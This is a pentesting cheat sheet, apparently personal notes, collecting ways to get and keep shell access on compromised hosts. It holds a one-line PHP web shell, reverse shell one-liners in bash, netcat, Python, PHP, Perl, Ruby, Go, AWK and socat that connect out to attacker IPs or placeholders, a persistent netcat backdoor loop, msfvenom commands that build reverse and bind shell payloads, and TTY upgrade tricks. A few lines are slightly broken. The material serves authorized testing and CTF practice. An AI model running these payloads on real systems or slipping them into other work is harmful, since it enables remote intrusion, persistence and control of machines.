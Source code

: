 # Shells 
## Contents
- [Shells](#shells)
  * [Contents](#contents)
  * [Web shells](#web-shells)
  * [Debugging Shells](#debugging-shells)
  * [Reverse shell commands](#reverse-shell-commands)
  * [Msfvenom Payloads](#msfvenom-payloads)
  * [Upgrading to a pseudo terminal / TTY](#upgrading-to-a-pseudo-terminal---tty)

## Web shells 
[phpbash web shell](https://github.com/Arrexel/phpbash)  
[pentest monkey php shell](https://github.com/pentestmonkey/php-reverse-shell)  
[p0wney web shell](https://github.com/flozz/p0wny-shell)  
[white winter wolf web shell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell)  
[collection of PHP webshells](https://github.com/JohnTroony/php-webshells/tree/master/Collection)    
/usr/share/seclists/Web-Shells    

    <?php if(isset($_GET[0])){echo $_GE[0]($_GET[1]) } ? >     

## Debugging Shells   
executing a command and no response - maybe the command is redirecting to stderr not stdout?
2>&1
Check for versions / path variables  
No path variable? Need absolute path 

    /bin/bash -c 'id'   

## Reverse shell commands  
### Bash (requires /dev/tcp support, primarily found in RedHat/Debian distros):  
One bash version (compromised account's shell must be bash; does not work via www-data):  

    bash -i >& /dev/tcp/10.6.85.85/4444 0>&1   
Two bash version (safer, since parent shell can be anything):    

    bash -c 'bash -i >& /dev/tcp/172.17.0.2/1337 0>&1'     
### netcat  
nc w/ -e (traditional):  

    rlwrap nc -e /bin/sh 172.16.5.1 4242   
    
    -e /bin/sh 
    -e /bin/bash
    -e /bin/zsh
    -e /bin/ash
    
nc openbsd (no -e):    

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.6.85.85 53 >/tmp/f    
    
Persistent netcat backdoor using a while loop or nohup:  

    while [1 ]; do echo "Started"; nc -l -p 443 -e /bin/sh; done     #goes away if user logs out, make persistent using nohup     
    no hup ./listener.sh &    #listener.sh: above line. Make a process keep running, ignores logout signal 
    
### other languages  
Python: 

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",53));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")' 
    
Python ipv6:

    python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4343,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");' 
    
socat                     

    socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<IP>:4444 
    
PHP            
    
    php -r '$sock=fsockopen("10.6.85.85",4444);exec("/bin/sh -i <&3 >&3 2>&3");' 

Perl 

    perl -e 'use Socket;$i="IP ADDRESS";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
 
Ruby 

    ruby -rsocket -e'f=TCPSocket.open("IP ADDRESS",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
    
    ruby -rsocket -e 'exit if fork;c=TCPSocket.new("[IPADDR]","[PORT]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
    
    
Golang 

    echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","IP ADDRESS:8080");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go

AWK

    awk 'BEGIN {s = "/inet/tcp/0/IP ADDRESS/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
    
[Tiberius Reverse Shells](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/reverse-shells.rst) 

[Payload All the Things Reverse Shells](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) 

[Reverse Shell Cheatsheet](https://github.com/d4t4s3c/Reverse-Shell-Cheat-Sheet)  

[Reverse and Bind Shells with Socat](https://erev0s.com/blog/encrypted-bind-and-reverse-shells-socat/)

## Msfvenom Payloads 
[Reference](https://thedarksource.com/msfvenom-cheat-sheet-create-metasploit-payloads/)    

    msfvenom -l payloads      #list payloads    
    msfvenom -l encoders      #list encoders 
    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf	
    msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf	
    msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf	
    msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf
   
PHP   

    msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
    cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php   
    target $ php shell.php    
Python    

    msfvenom -p python/meterpreter/reverse_tcp LHOST=10.10.16.192 LPORT=4444 -f raw     
    target$ python3 
    target$ [paste payload]   
## Upgrading to a pseudo terminal / TTY     
[Reference](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)  
[What Happens in a Shell Upgrade?](What Happens In a "Shell Upgrade"?)   

    python -c 'import pty;pty.spawn("/bin/bash")' 
    echo os.system('/bin/bash')
    /bin/sh -i  
    script /dev/null -c bash      #create new pty owned by current user, fixed in newer versions of screen        
    
    SHELL=/bin/bash script -q /dev/null        Ctrl-Z        stty raw -echo        fg    reset    xterm
    
    Can you upload a [socat static binary](https://github.com/andrew-d/static-binaries)? 
    
    vi -> :sh or :!UNIX_command
    perl —e 'exec "/bin/sh";' 
    perl: exec "/bin/sh"; 
    ruby: exec "/bin/sh" 
    lua: os.execute('/bin/sh') 
    

